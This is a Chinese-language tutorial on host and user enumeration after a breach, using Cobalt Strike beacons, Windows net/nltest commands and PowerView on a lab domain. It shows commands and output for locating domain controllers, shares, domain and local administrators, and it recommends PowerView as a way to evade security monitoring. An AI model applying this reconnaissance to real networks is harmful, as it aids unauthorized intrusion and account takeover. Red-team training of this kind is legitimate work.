

# Cobalt Strike — 2、主机和用户枚举

## 2、主机和用户枚举

### 主机枚举

**一些问题**

当进入目标局域网时，需要弄清楚几个问题。

1、我正处在那个域上？

2、域信任关系是什么样的？

3、可以登陆哪些域？这些域上有哪些系统？目标是什么？可以获取什么？

4、系统上存放共享数据的地方在哪里？

**一些枚举的命令**

* `net view /domain` 枚举出当前域

```powershell
PS C:\> net view /domain
Domain
-------------------------
TEAMSSIX
命令成功完成。
```

* `net view /domain:[domain]`、`net group "domain computers" /domain``net view /domain:[domain]`枚举域上一个主机的列表，但不是所有主机，这个也就是在网上邻居中可以看到的内容。`net group "domain computers" /domain`可以获得加入到这个域中的电脑账户列表。

```powershell
PS C:\> net view /domain:teamssix
服务器名称            注解
----------------------------------
\\WIN-72A8ERDSF2P
\\WIN-P2AASSD1AF1
命令成功完成。

PS C:\> net group "domain computers" /domain
组名     Domain Computers
注释     加入到域中的所有工作站和服务器
成员
----------------------------------------------
WIN-72A8ERDSF2P$
命令成功完成。
```

* `nltest /dclist:[domain]`如果想找到那个主机是域的域控服务器，可以使用`nltest`命令

```powershell
PS C:\> nltest /dclist:teamssix
获得域“teamssix”中 DC 的列表(从“\\WIN-P2AASSD1AF1”中)。
    WIN-P2AASSD1AF1.teamssix.com [PDC]  [DS] 站点: Default-First-Site-Name
此命令成功完成
```

```
	当使用 32 位的 payload 运行在 64 位的系统上，并且 nltest 路径不对的时候，可能会提示没有 nltest 这个命令，这时可以尝试使用下面的命令为其指定路径。
```

```powershell
PS C:\> C:\windows\sysnative\nltest /dclist:teamssix
获得域“teamssix”中 DC 的列表(从“\\WIN-P2AASSD1AF1”中)。
    WIN-P2AASSD1AF1.teamssix.com [PDC]  [DS] 站点: Default-First-Site-Name
此命令成功完成
```

* `nslookup [name]`、`ping -n 1 -4 [name]`有时在 Cobalt Strike 里，我们只需要使用目标的 NetBIOS 名称，而不用在意使用 IPv4 地址或者 IPv6 地址，NetBIOS 名称是在域上每台机器的完整名称。但是如果想通过一个 IPv4 地址转换为一个 NetBIOS 名称，可以使用 nslookup 命令，或者使用 ping 发送一个包来获得主机返回的 IP 地址。

```powershell
PS C:\> nslookup WIN-P2AASSD1AF1
服务器:  UnKnown
Address:  ::1
名称:    WIN-P2AASSD1AF1.teamssix.com
Address:  192.168.15.124

PS C:\> ping -n 1 -4 WIN-P2AASSD1AF1
正在 Ping WIN-P2AASSD1AF1.teamssix.com [192.168.15.124] 具有 32 字节的数据:
来自 192.168.15.124 的回复: 字节=32 时间<1ms TTL=128
192.168.15.124 的 Ping 统计信息:
    数据包: 已发送 = 1，已接收 = 1，丢失 = 0 (0% 丢失)，
往返行程的估计时间(以毫秒为单位):
    最短 = 0ms，最长 = 0ms，平均 = 0ms
```

* `nltest /domain_trusts`、`nltest /server:[address] /domain_trusts`如果想取得域上的信任关系，可以使用 nltest 命令来实现。

```powershell
PS C:\> nltest /domain_trusts
域信任的列表:
    0: TEAMSSIX teamssix.com (NT 5) (Forest Tree Root) (Primary Domain) (Native)
此命令成功完成

PS C:\> nltest /server:192.168.15.124 /domain_trusts
域信任的列表:
    0: TEAMSSIX teamssix.com (NT 5) (Forest Tree Root) (Primary Domain) (Native)
此命令成功完成
```

* `net view \\[name]`如果想列出主机上的共享列表，只需输入`net view \\[name]`即可

```powershell
PS C:\> net view \\WIN-P2AASSD1AF1
在 \\WIN-75F8PRJM4TP 的共享资源
共享名  类型  使用为  注释
----------------------------------
Users   Disk
命令成功完成。
```

#### PowerView

在渗透进入内网后，如果直接使用 Windows 的内置命令，比如 `net view、net user`等，可能就会被管理人员或者各种安全监控设备所发现。因此较为安全的办法就是使用 Powershell 和 VMI 来进行躲避态势感知的检测。

PowerView 是由 Will Schroeder 开发的 PowerShell 脚本，该脚本完全依赖于 Powershell 和 VMI ，使用 PowerView 可以更好的收集内网中的信息，在使用之前，与上一节 PowerUp 的一样需要先 import 导入 ps1 文件。

PowerView 下载地址：<https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon>

一些 PowerView 的命令：

* Get-NetDomain查询本地域的信息

```powershell
PS C:\PowerView> Get-NetDomain
Forest                  : teamssix.com
DomainControllers       : {WIN-P2AASSD1AF1.teamssix.com}
Children                : {}
DomainMode              : Windows2012Domain
Parent                  :
PdcRoleOwner            : WIN-P2AASSD1AF1.teamssix.com
RidRoleOwner            : WIN-P2AASSD1AF1.teamssix.com
InfrastructureRoleOwner : WIN-P2AASSD1AF1.teamssix.com
Name                    : teamssix.com
```

* Invoke-ShareFinder查找网络上是否存在共享

```powershell
PS C:\PowerView> Invoke-ShareFinder
\\WIN-P2AASSD1AF1.teamssix.com\ADMIN$   - 远程管理
\\WIN-P2AASSD1AF1.teamssix.com\C$       - 默认共享
\\WIN-P2AASSD1AF1.teamssix.com\IPC$     - 远程 IPC
\\WIN-P2AASSD1AF1.teamssix.com\NETLOGON         - Logon server share
\\WIN-P2AASSD1AF1.teamssix.com\SYSVOL   - Logon server share
```

* Invoke-MapDomainTrust显示当前域的信任关系

```powershell
PS C:\PowerView> Invoke-MapDomainTrust
```

其他更多用法可以查看参考链接，或者参考 PowerView 项目上的 ReadMe 部分。

#### Net 模块

Cobalt Strike 中有自己的 net 模块，net 模块是 beacon 后渗透攻击模块，它通过 windows 的网络管理 api 函数来执行命令，想使用 net 命令，只需要在 beacon 的控制中心输入 net + 要执行的命令即可。

```powershell
net dclist : 列出当前域的域控制器
net dclist [DOMAIN] : 列出指定域的域控制器
net share \\[name] : 列出目标的共享列表
net view : 列出当前域的主机
net view [DOMAIN] : 列出指定域的主机
```

在 beacon 控制台中输入这些命令很类似输入一个本地的 net 命令，但是有一些些许的不同，比如下面一个是在主机上运行 net view 的结果一个是在 beacon 控制台下运行 net view 的结果。不难看出，beacon 下输出的结果更为丰富。

```powershell
PS C:\> net view
服务器名称            注解
-------------------------------------------
\\WIN-P2AASSD1AF1
命令成功完成。
```

```powershell
beacon> net view
[*] Tasked beacon to run net view
[+] host called home, sent: 104504 bytes
[+] received output:
List of hosts:
Server Name             IP Address                       Platform  Version  Type   Comment
-----------             ----------                       --------  -------  ----   -------
WIN-P2AASSD1AF1         192.168.15.124                   500       6.1      PDC    
```



### 用户枚举

用户枚举的三个关键步骤：

1、当前账号是否为管理员账号？

2、哪些账号是域管理员账号？

3、哪个账号是这个系统上的本地管理员账号？

#### 管理员账号

第一个关键步骤，发现管理员账号。

如果想知道自己是否为管理员账号，可以尝试运行一些只有管理员账号才有权限操作的命令，然后通过返回结果判断是否为管理员。

其中一种方式是尝试列出仅仅只有管理员才能查看的共享列表，比如下面的 `dir \\host\C$` 命令，如果可以看到一个文件列表，那么说明可能拥有本地管理员权限。

```powershell
shell dir \\host\C$
```

```powershell
#管理员账号运行结果
beacon> shell dir \\WinDC\C$
[*] Tasked beacon to run: dir \\WinDC\C$
[+] host called home, sent: 55 bytes
[+] received output:
 驱动器 \\WinDC\C$ 中的卷没有标签。
 卷的序列号是 F269-89A7
 \\WinDC\C$ 的目录
2020/06/24  09:29    <DIR>          inetpub
2009/07/14  11:20    <DIR>          PerfLogs
2020/07/16  21:24    <DIR>          Program Files
2020/07/16  21:52    <DIR>          Program Files (x86)
2020/07/17  23:00    <DIR>          Users
2020/07/26  00:55    <DIR>          Windows
               0 个文件              0 字节
               6 个目录 28,500,807,680 可用字节
```

```powershell
#一般账号运行结果
beacon> shell dir \\WinDC\C$
[*] Tasked beacon to run: dir \\WinDC\C$
[+] host called home, sent: 55 bytes
[+] received output:
拒绝访问。
```

也可以运行其他命令，比如运行下面的 `at` 命令来查看系统上的计划任务列表，如果显示出了任务列表信息，那么可能是本地管理员。（当任务列表没有信息时会返回 “列表是空的” 提示）

```powershell
shell at \\host
```

```powershell
#管理员账号运行结果
beacon> shell at \\WinDC
[*] Tasked beacon to run: at \\WinDC
[+] host called home, sent: 51 bytes
[+] received output:
状态 ID     日期                    时间          命令行
-------------------------------------------------------------------------------
        1   今天                    22:30         E:\Install\Thunder\Thunder.exe
```

```powershell
#一般账号运行结果
beacon> shell at \\WinDC
[*] Tasked beacon to run: at \\WinDC
[+] host called home, sent: 51 bytes
[+] received output:
拒绝访问。
```

在上一节讲述的 `PowerView` 有很多很好的自动操作来帮助解决这些问题。可以在加载 `PowerView` 后，运行下面的命令，通过 `PowerView` 可以快速找到管理员账号。

```powershell
powershell Find-LocalAdminAccess
```

```powershell
beacon> powershell-import powerview.ps1
[*] Tasked beacon to import: powerview.ps1
[+] host called home, sent: 101224 bytes

beacon> powershell Find-LocalAdminAccess
[*] Tasked beacon to run: Find-LocalAdminAccess
[+] host called home, sent: 329 bytes
[+] received output:
WinDC.teamssix.com
```

#### 域管理员账号

第二个关键步骤，发现域管理员账号。

**列出域管理员**

对于发现域管理员账号，可以在共享里使用本地的Windows命令。运行以下两条命令可以用来找出这些“域群组”的成员。

```powershell
net group "enterprise admins" /DOMAIN
net group "domain admins" /DOMAIN
```

```powershell
beacon> shell net group "enterprise admins" /domain
[*] Tasked beacon to run: net group "enterprise admins" /domain
[+] host called home, sent: 68 bytes
[+] received output:
组名     Enterprise Admins
注释     企业的指定系统管理员
成员
-------------------------------------------------------------------------------
Administrator            
命令成功完成。
```

```powershell
beacon> shell net group "domain admins" /domain
[*] Tasked beacon to run: net group "domain admins" /domain
[+] host called home, sent: 64 bytes
[+] received output:
组名     Domain Admins
注释     指定的域管理员
成员
-------------------------------------------------------------------------------
Administrator            
命令成功完成。
```

或者运行下面的命令来看谁是域控制器上的管理员

```powershell
net localgroup "administrators" /DOMAIN
```

```powershell
beacon> shell net localgroup "administrators" /domain
[*] Tasked beacon to run: net localgroup "administrators" /domain
[+] host called home, sent: 70 bytes
[+] received output:
别名     administrators
注释     管理员对计算机/域有不受限制的完全访问权
成员
-------------------------------------------------------------------------------
administrator
Domain Admins
Daniel
Enterprise Admins
命令成功完成。
```

**Net 模块**

beacon 的 net 模块也可以帮助我们，下面的命令中 `TARGET` 的意思是一个域控制器或者是任何想查看的组名，比如企业管理员、域管理员等等

```powershell
net group \\TARGET group name
```

也可以运行下面的命令，这会连接任意目标来获取列表

```powershell
net localgroup \\TARGET group name
```

#### 本地管理员

**Net 模块**

本地管理员可能是一个域账户，因此如果想把一个系统作为目标，应该找到谁是这个系统的本地管理员，因为如果获得了它的密码哈希值或者凭据就可以伪装成那个用户。

beacon 的 net 模块可以在系统上从一个没有特权的关联中查询本地组和用户。

在 beacon 控制台中运行下面命令可以获得一个目标上的群组列表

```powershell
net localgroup \\TARGET
```

如果想获取群组的列表，可运行下面的命令来获得一个群组成员的名单列表。

```powershell
net localgroup \\TARGET group name
```

```powershell
beacon> net localgroup \\WinDC administrators
[*] Tasked beacon to run net localgroup administrators on WinDC
[+] host called home, sent: 104510 bytes
[+] received output:
Members of administrators on \\WinDC:
TEAMSSIX\Administrator
TEAMSSIX\Daniel
TEAMSSIX\Enterprise Admins
TEAMSSIX\Domain Admins
```

**PowerView 模块**

PowerView 使用下面的命令能够在一个主机上找到本地管理员，这条命令实际上通过管理员群组找到同样的群组并且把成员名单返回出来。

```powershell
Get-Netlocalgroup -hostname TARGET
```

```powershell
beacon> powershell Get-Netlocalgroup -Hostname WinDC
[*] Tasked beacon to run: Get-Netlocalgroup -Hostname WinDC
[+] host called home, sent: 385 bytes
[+] received output:

ComputerName : WinDC
AccountName  : teamssix.com/Administrator
IsDomain     : True
IsGroup      : False
SID          : S-1-5-22-3301978333-983314215-684642015-500
Description  : 
Disabled     : 
LastLogin    : 2020/8/17 22:21:23
PwdLastSet   : 
PwdExpired   : 
UserFlags    : 

ComputerName : WinDC
AccountName  : teamssix.com/Daniel
……内容过多，余下部分省略……
```
